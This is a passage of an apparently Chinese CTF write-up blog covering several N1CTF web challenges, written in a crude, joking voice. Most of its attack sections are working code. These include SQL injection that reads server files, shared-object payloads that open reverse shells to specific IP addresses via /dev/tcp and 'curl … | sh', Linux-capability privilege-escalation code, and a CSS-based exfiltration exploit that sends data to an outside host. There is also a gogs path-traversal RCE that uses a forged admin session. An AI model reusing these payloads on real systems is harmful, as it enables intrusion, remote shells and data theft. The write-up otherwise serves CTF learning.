KbFlXMDdLVllCQUF4MWMyVkVaV3hwYldsMFpYSUJBQ2NvVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3S1V4cVlYWmhMM1YwYVd3dlUyTmhibTVsY2pzQkFBUnVaWGgwQVFBVUtDbE1hbUYyWVM5c1lXNW5MMU4wY21sdVp6c0JBQWhuWlhSQ2VYUmxjd0VBQkNncFcwSUJBQVVvVzBJcFZnRUFFV055WldGMFpWUmxlSFJOWlhOellXZGxBUUFaS0NsTWFtRjJZWGd2YW0xekwxUmxlSFJOWlhOellXZGxPd0VBQjNObGRGUmxlSFFCQUJscVlYWmhlQzlxYlhNdlRXVnpjMkZuWlZCeWIyUjFZMlZ5QVFBRWMyVnVaQUVBRUdwaGRtRXZiR0Z1Wnk5VGVYTjBaVzBCQUFOdmRYUUJBQlZNYW1GMllTOXBieTlRY21sdWRGTjBjbVZoYlRzQkFCTnFZWFpoTDJsdkwxQnlhVzUwVTNSeVpXRnRBUUFIY0hKcGJuUnNiZ0VBQldOc2IzTmxBUUFPWTNKbFlYUmxRMjl1YzNWdFpYSUJBRFFvVEdwaGRtRjRMMnB0Y3k5RVpYTjBhVzVoZEdsdmJqc3BUR3BoZG1GNEwycHRjeTlOWlhOellXZGxRMjl1YzNWdFpYSTdBUUFaYW1GMllYZ3ZhbTF6TDAxbGMzTmhaMlZEYjI1emRXMWxjZ0VBRW5ObGRFMWxjM05oWjJWTWFYTjBaVzVsY2dFQUhpaE1hbUYyWVhndmFtMXpMMDFsYzNOaFoyVk1hWE4wWlc1bGNqc3BWZ0VBQm1Gd2NHVnVaQUVBTFNoTWFtRjJZUzlzWVc1bkwxTjBjbWx1WnpzcFRHcGhkbUV2YkdGdVp5OVRkSEpwYm1kQ2RXbHNaR1Z5T3dFQUIyZGxkRlJsZUhRQkFBaDBiMU4wY21sdVp3RUFEM0J5YVc1MFUzUmhZMnRVY21GalpRQWhBQ1VBTVFBQkFESUFBQUFGQUFFQU13QTBBQUVBTlFBQUFDOEFBUUFCQUFBQUJTcTNBQUd4QUFBQUFnQTJBQUFBQmdBQkFBQUFCUUEzQUFBQURBQUJBQUFBQlFBNEFEa0FBQUFDQURvQU5BQUNBRFVBQUFGZUFBVUFDZ0FBQUpxN0FBSlpFZ08zQUFSTUs3a0FCUUVBVFN3REJMa0FCd01BVGkwU0NMa0FDUUlBT2dRdEdRUzVBQW9DQURvRkJyMEFDMWtERWd4VFdRUVNEVk5aQlJJT1V6b0d1d0FQV2JzQUVGa1pCcmNBRWJZQUVyWUFFN2NBRkJJVnRnQVd0Z0FYdGdBWU9nZTdBQXRaR1FlM0FCazZDQzI1QUJvQkFEb0pHUWtaQ0xrQUd3SUFHUVVaQ2JrQUhBSUFzZ0FkRWg2MkFCOHN1UUFnQVFDeEFBQUFBZ0EyQUFBQVJnQVJBQUFBQ0FBS0FBa0FFUUFLQUJvQUN3QWtBQXdBTGdBTkFFTUFEZ0JiQUE4QVhnQVFBR0VBRVFCbUFCSUFjUUFUQUhrQUZBQ0NBQlVBaXdBV0FKTUFGd0NaQUJnQU53QUFBR1lBQ2dBQUFKb0FPQUE1QUFBQUNnQ1FBRHNBUEFBQkFCRUFpUUE5QUQ0QUFnQWFBSUFBUHdCQUFBTUFKQUIyQUVFQVFnQUVBQzRBYkFCREFFUUFCUUJEQUZjQVJRQkdBQVlBWmdBMEFFY0FTQUFIQUhFQUtRQkpBRW9BQ0FCNUFDRUFTd0JNQUFrQVRRQUFBQVFBQVFBdkFBSUFUZ0EwQUFJQU5RQUFBTFVBQXdBR0FBQUFQYnNBQWxrU0liY0FCRXdydVFBRkFRQk5MQU1FdVFBSEF3Qk9MUklJdVFBSkFnQTZCQzBaQkxrQUlnSUFPZ1VaQlNxNUFDTUNBQ3k1QUNRQkFMRUFBQUFDQURZQUFBQWlBQWdBQUFBYkFBb0FIQUFSQUIwQUdnQWVBQ1FBSHdBdUFDQUFOZ0FoQUR3QUlnQTNBQUFBUGdBR0FBQUFQUUE0QURrQUFBQUtBRE1BT3dBOEFBRUFFUUFzQUQwQVBnQUNBQm9BSXdCUEFFQUFBd0FrQUJrQVFRQkNBQVFBTGdBUEFGQUFVUUFGQUUwQUFBQUVBQUVBTHdBSkFGSUFVd0FDQURVQUFBQkpBQUlBQWdBQUFBMjdBQ1ZadHdBbVRDdTNBQ2V4QUFBQUFnQTJBQUFBRGdBREFBQUFKZ0FJQUNjQURBQW9BRGNBQUFBV0FBSUFBQUFOQUZRQVJnQUFBQWdBQlFCU0FEa0FBUUJOQUFBQUJBQUJBQzhBQVFCVkFGWUFBUUExQUFBQWpRQURBQU1BQUFBcXNnQWR1d0FvV2JjQUtSSXF0Z0FySzhBQUxMa0FMUUVBdGdBcnRnQXV0Z0FmcHdBSVRTeTJBREN4QUFFQUFBQWhBQ1FBTHdBREFEWUFBQUFXQUFVQUFBQXRBQ0VBTUFBa0FDNEFKUUF2QUNrQU1RQTNBQUFBSUFBREFDVUFCQUJYQUZnQUFnQUFBQ29BT0FBNUFBQUFBQUFxQUVrQVdRQUJBRm9BQUFBSEFBSmtCd0F2QkFBQkFGc0FBQUFDQUZ3PXxiYXNlNjQgLWQgPi90bXAvbWxnYi50eHQiXX0=
```


然后base64 编码,放入oneway的路径🤪

经调试,由于一次性不能写那么长的内容,只能曲线救国

分段写入 1和2,然后合并写入3,再base64解码(这nm是人能搞出来的操作?本来就恶心,还给👴使绊,差不多得了😅😓)

```java
{"lpcAllCom":["cat /tmp/1 /tmp/2|tr -d '\n'|tee /tmp/3","cat /tmp/1 /tmp/2|tr -d '\n'|tee /tmp/3"]}
```


```java
{"lpcAllCom":["base64 -d -i /tmp/sss |tee /tmp/Main.class","base64 -d -i /tmp/sss |tee /tmp/Main.class"]}
```


```java
eyJscGNBbGxDb20iOlsiYmFzZTY0IC1kIC1pIC90bXAvc3NzIHx0ZWUgL3RtcC9NYWluLmNsYXNzIiwiYmFzZTY0IC1kIC1pIC90bXAvc3NzIHx0ZWUgL3RtcC9NYWluLmNsYXNzIl19
```

解码,写出Main.class


java运行🤔

```java
java -cp /opt/apache-activemq/lib/optional/*:/tmp:/opt/apache-activemq/activemq-all-5.17.5.jar Main
```

```java
{"lpcAllCom":["java -cp /opt/apache-activemq/lib/optional/*:/tmp:/opt/apache-activemq/activemq-all-5.17.5.jar Main","java -cp /opt/apache-activemq/lib/optional/*:/tmp:/opt/apache-activemq/activemq-all-5.17.5.jar Main"]}
```


wcsndm,本地环境base64tmd写不了文件😅,√Ⅷssrf命令执行也尽恶心人,题目还不给编译,你tmjava不用编译是吧😓😅,手

搓class文件是吧.

哦,源赖氏java11编译和运行一体化,一个java就能搞定,nmsl(那没事了)😊

之后调用comsume函数就行,由于flag已经写入队列了,读队列就行了.🤣



```java
public static void main(String[] args) throws Exception {
        Main main = new Main();
         main.consume();
    }
private void consume() throws Exception {
        ConnectionFactory factory = new ActiveMQConnectionFactory("tcp://target:61616");
        Connection connection = factory.createConnection();
        Session subSession = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
        Queue queue = subSession.createQueue("flagqueue");
        MessageConsumer subscriber = subSession.createConsumer(queue);
        subscriber.setMessageListener(this);
        connection.start();
    }
```

`MessageConsumer subscriber = subSession.createConsumer(queue);`：使用 `Session` 创建一个 `MessageConsumer` 对象，该对象用于接收队列 `flagqueue` 上的消息。


一个德拉米,你设计牛魔的√Ⅷ题呢,纯😅恶心人,复现都不让了👴安宁.还好👴是完美天才的idol(暴论😡)

注意米线


# ez_maria

好可爱的lolita🥵🥵,不知道n1都怎么忍住的,是我直接......狠狠地把这题做出来,虽然也不一定能做出来就是了.😤

上来就告诉你有SQL的利用点,不多说,直接狠狠地搞点事.

二话不说,打个绞线(读个index.php)

```java
id=0 union select 1, load_file('/var/www/html/index.php')
```


## 源码分析

```php
<?php

//for n1ctf ezmariadb secret cmd

if ($_REQUEST["secret"] === "lolita_love_you_forever"){
    header("Content-Type: text/plain");
    echo "\\n\\n`ps -ef` result\\n\\n";
    system("ps -ef");
    echo "\\n\\n`ls -l /` result\\n\\n";
    system("ls -l /");
    echo "\\n\\n`ls -l /var/www/html/` result\\n\\n";
    system("ls -l /var/www/html/");
    echo "\\n\\n`find /mysql` result\\n\\n";
    system("find /mysql");
    die("can you get shell?");
}

$servername = "127.0.0.1";
$username = "root";
$password = "123456";
$dbn = "ctf";
```

waf

```php
if (preg_match("/(master|change|outfile|slave|start|status|insert|delete|drop|execute|function|return|alter|global|immediate)/is", $_REQUEST["id"])){
    die("你就不能绕一下喵");
}
```

可以看到当`secret=lolita_love_you_forever`时,会爆出一些信息.


lolita真的会爱我吗,我已经单身二十年甚至十九年,lolita爱我的话,小🚹👩‍🦰也不是不行........(不行,👴永远喜欢栗山未来)


传参,获取一些有用的信息

```php
 mariadbd --skip-grant-tables --secure-file-priv= --datadir=/mysql/data --plugin_dir=/mysql/plugin --user=mysql
```

plugin目录是`/mysql/plugin`,`secure-file-priv`是空的,这表示 MySQL 允许从任何位置读取数据文件。

ならば、答えはひとつだ.(bushi)

往 /mysql/plugin 目录写 so 打 udf😊,虽然function被ban,但是我们还有INSTALL


## UDF写so🤪


写法一:


```php

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

__attribute__((constructor)) void init(int argc, char *argv[]) {
    system("curl https://reverse-shell.sh/82.156.5.200:1034 | sh &");
}
```

写法二:来自Lolita的❤

```php
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void lshell(){
    
    system("bash -c 'bash -i >& /dev/tcp/43.143.192.19/1145 0>&1 &'");
}
class LOLITA {
public:
    LOLITA(){
        lshell();
    }
};
LOLITA lolita;
LOLITA* _mysql_plugin_interface_version_ = &lolita;
//compile: g++ expso.cpp -shared -fPIC -o exp.so
```

以及来自DJB的

```php
// gcc -fPIC -shared -o preload.so preload.c -nostartfiles -nolibc
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
    system("/bin/bash -c 'bash -i >& /dev/tcp/43.143.192.19/1145 0>&1'");
}
```


```php
gcc -fPIC -shared -o preload.so preload.c -nostartfiles -nolibc
```

-nostartfiles -nolibc这两个选项比较高级,嵌入式系统常使用


写入

```php
f = open("preaload.so", 'rb')
xid = "1; select unhex('" + ''.join(['%02X' % b for b in bytes(f.read())]) + "') into dumpfile '/mysql/plugin/lolita.so';"
res = requests.post(url, data={
    "id": xid
})
print(res.text)
```

或者NESE大爹的写法

```php
1; select from_base64('xx') into dumpfile '/mysql/plugin/xxx.so';
```


- `%`：表示格式说明符的起始。
- `0`：表示使用零来填充字段宽度，如果转换的值不足指定的宽度。
- `2`：表示字段的最小宽度，即输出的字符串中至少会有两个字符。
- `X`：表示要将整数以十六进制形式输出，并且使用大写字母。

写进去还没完,由于没有mysql库,得先创造个mysql库,👴真是太菜了,👴要学!!!!

```php
CREATE DATABASE IF NOT EXISTS mysql;
use mysql;
CREATE TABLE IF NOT EXISTS plugin ( name varchar(64) DEFAULT '' NOT NULL, dl varchar(128) DEFAULT '' NOT NULL, PRIMARY KEY (name) ) engine=Aria transactional=1 CHARACTER SET utf8mb3 COLLATE utf8mb3_general_ci comment='MySQL plugins';
```


```php
1;create database mysql;create table mysql.plugin(name varchar(64), dl varchar(128));INSTALL PLUGIN testx SONAME 'lolita.so';

```


1. `CREATE TABLE IF NOT EXISTS plugin`: 这部分开始了一个创建表的 SQL 语句。`IF NOT EXISTS` 部分表示如果同名的表已经存在，就不再创建，以避免重复创建。

2. `( name varchar(64) DEFAULT '' NOT NULL, dl varchar(128) DEFAULT '' NOT NULL)`: 这一部分定义了表的列。具体解释如下：

   - `name varchar(64)`: 创建一个名为 "name" 的列，其数据类型为 VARCHAR，最大长度为 64 个字符。这个列存储插件的名称。
   - `dl varchar(128)`: 创建一个名为 "dl" 的列，其数据类型为 VARCHAR，最大长度为 128 个字符。这个列存储插件的下载链接。
   - `DEFAULT ''`: 这部分指定了如果没有提供值，这两个列的默认值是空字符串。
   - `NOT NULL`: 这部分指定了这两列是非空的，也就是说，插入数据时必须为它们提供值。

3. `PRIMARY KEY (name)`: 这一部分定义了一个主键约束。它指定 "name" 列作为主键，这意味着 "name" 列中的值必须是唯一的，用于唯一标识每个插件。

4. `engine=Aria transactional=1 CHARACTER SET utf8mb3 COLLATE utf8mb3_general_ci`: 这部分定义了表的引擎、事务性、字符集和排序规则。

   - `engine=Aria`: 表使用 Aria 存储引擎。
   - `transactional=1`: 表被指定为事务性表。
   - `CHARACTER SET utf8mb3`: 表的字符集被设置为 UTF-8 MB3。
   - `COLLATE utf8mb3_general_ci`: 表的排序规则被设置为 UTF-8 MB3 的通用不区分大小写排序规则。

5. `comment='MySQL plugins'`: 这一部分可以用于提供表的注释或描述。在这种情况下，表的注释是 "MySQL plugins"，以便更好地理解表的用途。

   👴给你详细地介绍一下怎么个事,算是介绍一个建表模板了,避免以后建表出bug.

接下来加载恶意so文件,弹shell成功

```php
1;INSTALL PLUGIN lolita SONAME 'lolita.so';
```



然而这可并不是终点,阿米诺斯,flag没权限读

```php
find / -exec getcap {} ; 2>/dev/null 
```


对每个文件运行 `getcap` 命令，以查看文件是否拥有"capabilities"属性。而 `-exec` 部分是用于执行这个检查的命令,`{}`是占位符

`getcap`是Linux命令行工具，用于检查和显示文件的"capabilities"。它允许你查看与特定文件或可执行文件相关联的"capabilities"

## 牛魔的什么事capabilities权限😓


[linux setcap命令详解(包括各个cap的使用举例)_xiedy001的博客-CSDN博客](https://blog.csdn.net/xdy762024688/article/details/132237969)

[Linux提权之Capabilities提权（一） - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/358115.html)

来自lolita小改改(bushi)的❤


"capabilities"权限是Linux内核引入的，用于精细划分超级用户权限的领域

说白了,root被分权了,capabilities继承一部分.

1. `CAP_NET_BIND_SERVICE`：允许绑定小于1024的网络端口。
2. `CAP_SYS_ADMIN`：允许执行一些系统管理任务，如挂载文件系统。
3. `CAP_DAC_OVERRIDE`：允许忽略文件的传统Unix权限。
4. `CAP_SYS_PTRACE`：允许跟踪其他进程。
5. `CAP_SETUID`：允许进程改变其有效用户ID。


|   capability名称    |                             描述                             |
| :-----------------: | :----------------------------------------------------------: |
|   CAPAUDITCONTROL   | 启用和禁用内核审计；改变审计过滤规则；检索审计状态和过滤规则 |
|    CAPAUDITREAD     |        允许通过 multicast netlink 套接字读取审计日志         |
|    CAPAUDITWRITE    |                    将记录写入内核审计日志                    |
|   CAPBLOCKSUSPEND   |                  使用可以阻止系统挂起的特性                  |
|      CAP_CHOWN      |                     修改文件所有者的权限                     |
|   CAPDACOVERRIDE    |                   忽略文件的 DAC 访问限制                    |
| CAP_DAC_READ_SEARCH |             忽略文件读及目录搜索的 DAC 访问限制              |
|     CAP_FOWNER      |        忽略文件属主 ID 必须和进程用户 ID 相匹配的限制        |
|     CAP_FSETID      |                   允许设置文件的 setuid 位                   |
|     CAPIPCLOCK      |                     允许锁定共享内存片段                     |
|     CAPIPCOWNER     |                     忽略 IPC 所有权检查                      |
|      CAP_KILL       |                允许对不属于自己的进程发送信号                |
|      CAP_LEASE      |                允许修改文件锁的 FL_LEASE 标志                |
|  CAPLINUXIMMUTABLE  |         允许修改文件的 IMMUTABLE 和 APPEND 属性标志          |
|     CAPMACADMIN     |                   允许 MAC 配置或状态更改                    |
|   CAPMACOVERRIDE    |                   忽略文件的 DAC 访问限制                    |
|      CAP_MKNOD      |                  允许使用 mknod() 系统调用                   |
|     CAPNETADMIN     |                     允许执行网络管理任务                     |
| CAPNETBIND_SERVICE  |                  允许绑定到小于 1024 的端口                  |
|   CAPNETBROADCAST   |                    允许网络广播和多播访问                    |
|      CAPNETRAW      |                      允许使用原始套接字                      |
|     CAP_SETGID      |                      允许改变进程的 GID                      |
|     CAP_SETFCAP     |              允许为文件设置任意的 capabilities               |
|     CAP_SETPCAP     |                  参考 capabilities man page                  |
|     CAP_SETUID      |                      允许改变进程的 UID                      |
|     CAPSYSADMIN     |  允许执行系统管理任务，如加载或卸载文件系统、设置磁盘配额等  |
|     CAPSYSBOOT      |                       允许重新启动系统                       |
|    CAPSYSCHROOT     |                  允许使用 chroot() 系统调用                  |
|    CAPSYSMODULE     |                    允许插入和删除内核模块                    |
|     CAPSYSNICE      |             允许提升优先级及设置其他进程的优先级             |
|     CAPSYSPACCT     |                  允许执行进程的 BSD 式审计                   |
|    CAPSYSPTRACE     |                       允许跟踪任何进程                       |
|     CAPSYSRAWIO     |   允许直接访问 /devport、/dev/mem、/dev/kmem 及原始块设备    |
|   CAPSYSRESOURCE    |                         忽略资源限制                         |
|     CAPSYSTIME      |                       允许改变系统时钟                       |
|  CAPSYSTTY_CONFIG   |                      允许配置 TTY 设备                       |
|     CAP_SYSLOG      |                  允许使用 syslog() 系统调用                  |
|    CAPWAKEALARM     | 允许触发一些能唤醒系统的东西(比如 CLOCKBOOTTIMEALARM 计时器) |

设置与删除Capabilities

```php
setcap cap_sys_admin+ep /usr/sbin/python #设置capabilities权限
setcap -r /usr/sbin/python #移除capabilities权限
```

查找Capabilities的文件

```php
getcap -r / 2>/dev/null
find / -exec getcap {} ; 2>/dev/null 
```




这里maraidb有cap_setfcap的权限,允许为文件设置任意的 capabilities.


## 其一

写个readflag

```php
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

// gcc readflag.c -o readflag
int main() {
    char *buffer[1024];
    setuid(0);
    FILE* f = fopen("/flag", "r");
    fread(buffer, 1024, 1, f);
    fclose(f);
    printf("%s\n", buffer);
}

```

万能的base64写一切


再写一个调用 `cap_set_file` 给 readflag 挂上 cap_setuid=ep
之后用 mariadb 加载恶意 so, mariadb –plugin-dir=/mysql/plugin/ –default-auth=setcap

```php
#define _GNU_SOURCE
#include <stdlib.h>
#include <sys/capability.h>
#include <unistd.h>
#include <sys/types.h>

// setcap cap_setuid+ep readflag

// /usr/bin/mariadb cap_setfcap=ep
// gcc -fPIC -shared setcap.c -o setcap.so -lcap
__attribute__ ((__constructor__)) void test (void){
    cap_t cap = cap_from_text("cap_setuid+ep");
    cap_set_file("/mysql/plugin/readflag", cap);
}

```

1. `cap_t cap = cap_from_text("cap_setuid+ep");`：这行代码使用`cap_from_text`函数创建一个能力集（capability set）。在Linux中，能力集是一种安全机制，用于管理进程对系统资源和操作的访问权限。`cap_setuid+ep`表示启用"设置用户标识"（`cap_setuid`）和"提升特权"（`ep`，意味着效果持久），这意味着程序将具有提升权限的能力.

   人言:获取`cap_setuid`这种cap,然后给readflag赋上

2. `cap_set_file("/mysql/plugin/readflag", cap);`：给readflag上权限

   编译

   ```php
   gcc -fPIC -shared setcap.c -o setcap.so -lcap
   ```

   ​	`-lcap` 是编译C/C++程序时传递给编译器的选项之一，用于指定链接到 Linux 能力库,一些常见的能力库函数包括 `cap_from_text` 和 `cap_set_file`在这里面

   rnm,编译不出来,本地编译吧.报错:fatal error: sys/capability.h

   ```php
   sudo apt-get install libcap-dev
   ```

   解决一下

   

   

   ```php
   mariadb –-plugin-dir=/tmp –-default-auth=cap &
   ```

   ## 其二

   ~~~php
   #include <stdlib.h>
   #include <stdio.h>
   #include <sys/types.h>
   #include <unistd.h>
   #include <sys/capability.h>
   
   void lshell(){
       cap_t caps = cap_from_text("cap_dac_override=eip");
       cap_set_file("/bin/cat", caps);
       printf("setcap finished\n");
   }
   
   class LOLITA {
   public:
       LOLITA(){
           lshell();
       }
   };
   LOLITA _mysql_client_plugin_declaration_;
   //compile: g++ evil.c -shared -fPIC -o cap.so -lcap2
   ```
   将编译出来的文件传到靶机（dd < /dev/tcp/ip/port > cap.so）  
   加载这个so让/bin/cat获取cap_dac_override（忽略文件权限）的特权  
   ```
   mariadb --plugin-dir=. --default-auth=cap
   cat /flag
   ```
   ~~~

   ## 劫持php

   ```php
   
   #include <stdio.h>
   #include <stdlib.h>
   #include <unistd.h>
   #include <netinet/in.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <dlfcn.h>
   // #include <sys/capability.h>
   
   typedef void* cap_t;
   typedef cap_t (*cap_from_text_t)(const char *);
   typedef int (*cap_set_file_t)(const char *, cap_t);
   
   __attribute__((constructor)) void init(int argc, char *argv[]) {
       printf("cap.c: init()\n");
       void *handle = dlopen ("/lib/x86_64-linux-gnu/libcap.so.2", RTLD_LAZY);
       cap_from_text_t cap_from_text = (cap_from_text_t)dlsym(handle, "cap_from_text");
       cap_set_file_t cap_set_file = (cap_set_file_t)dlsym(handle, "cap_set_file");
       cap_set_file("/usr/local/bin/php", cap_from_text("cap_setuid+ep"));
   }
   
   ```

   更吊的

   ```php
   #include <stdio.h>
   #include <sys/types.h>
   #include <stdlib.h>
   #include <sys/capability.h>
   void _init()
   {
       cap_t caps = cap_init();
       if (caps == NULL) {
           perror("cap_init");
           exit(EXIT_FAILURE);
       }
       
       cap_value_t cap_list[4];
       //cap_list[0] = CAP_SYS_ADMIN;
       cap_list[0] = CAP_SETFCAP;
       cap_list[1] = CAP_CHOWN;
       cap_list[2] = CAP_SETUID;
       cap_list[3] = CAP_SETGID;
       if (cap_set_flag(caps, CAP_EFFECTIVE, 4, cap_list, CAP_SET) == -1 ||
           cap_set_flag(caps, CAP_INHERITABLE, 4, cap_list, CAP_SET) == -1 ||
           cap_set_flag(caps, CAP_PERMITTED, 4, cap_list, CAP_SET) == -1) {
           perror("cap_set_flag");
           cap_free(caps);
           exit(EXIT_FAILURE);
       }
       
       const char *filename = "/tmp/perl";
       if (cap_set_file(filename, caps) == -1) {
           perror("cap_set_file");
           cap_free(caps);
           exit(EXIT_FAILURE);
       }
       
       cap_free(caps);
   }
   ```

   

   

   md😡其它几家的反弹shellpayload有问题,反弹shell了以后就一直连不上mariadb了,最后还是用了lolita的exp打,一遍过,果然lolita还是爱我的🥰🥰🥰.

   这种终出的感觉谁懂啊,好√Ⅷ舒服啊,√Ⅷ好舒服啊.

   

   

   # ytiruces

   👴不想复现,环境不好搞,👴贴个exp在这

   ```php
   import string
   import socket
   
   payload = 'https://ytiruces.ctfpunk.com/?content=%3Cp%3E%3Cstyle%3E#style#%3C/style%3E%3Cvideo%20controls%20playsinline%20autoplay%20muted%20loop%3E%3Csource%20src=%22https://n1s.ctf.hurrison.com/test.webm%22%3E%3Ctrack%20src=%22/flag?name=WEBVTT%250a00:00.000--%3E00:13.000%250a%3Cv%22%20default%3E'
   
   flag = 'n1ctf{I'
   
   style = '::cue(v[voice^=%22' + flag + '#x#%22])%20{%20background:%20url(https://n1.ctf.hurrison.com/?f=#x#);%20}%0a'
   
   s = ''
   
   table = string.ascii_letters + '{' + '}'
   
   for x in table:
       s += style.replace('#x#', x)
   
   payload = payload.replace('#style#', s)
   
   print(payload)
   
   ip = '119.28.143.13'
   port = 32890
   
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((ip, port))
   d = s.recv(256)
   print(d)
   s.send(payload.encode())
   ```

   


# ggbond’s gogs

依旧是没环境,贴个wp,👴真不是懒🐕

internal/db/repo_editor.go UpdateRepoFile 函数，之前爆过 NewTreeName 参数的目录穿越写 .git/config RCE，修了之后
NewTreeName 加了过滤。
观察 OldTreeName 参数，从 Web 接口访问时是从数据库取的 c.Repo.TreePath，从 API 接口 PUT /repos/:username/:reponame/contents/* 访问时，是直接 c.Param(“*”) 从路由中取的。所以传入 ../../ 可以目录穿越任意文件写。
直接本地起一个 Gogs，ID 1 管理员名称为 root。默认 Session 存文件，将管理员 Session Base64 后发送请求写 Session 文件到指定目录下。

```php
Dv+BBAEC/4IAARABEAAAWv+CAAMGc3RyaW5nDAcABXVuYW1lBnN0cmluZwwGAARyb290BnN0cmluZwwKAAhfb2xkX3VpZAZzdHJpbmcMAwABMQZzdHJpbmcMBQADdWlkBWludDY0BAIAAg==
```




用 Cookie f01f9038fe591924 登入管理员账号，给任意一个仓库配置 Git pre-receive 钩子，然后再向这个仓库上传文件，即可触发钩子的命令实现 RCE。用 curl 将 flag 带出来：


👴真不是懒,没环境复现个钩子,tmd当👴⭐😡吧.


# dockerdebug

```dockerfile
#FROM openjdk:8-alpine
FROM adoptopenjdk/openjdk11
COPY SimpleAPI-1.0-SNAPSHOT.jar /tmp/web.jar
COPY flag /flag
COPY start.sh /start.sh
RUN chmod +x /start.sh
ENTRYPOINT /start.sh 
EXPOSE 8877
EXPOSE 3345
```

```dockerfile

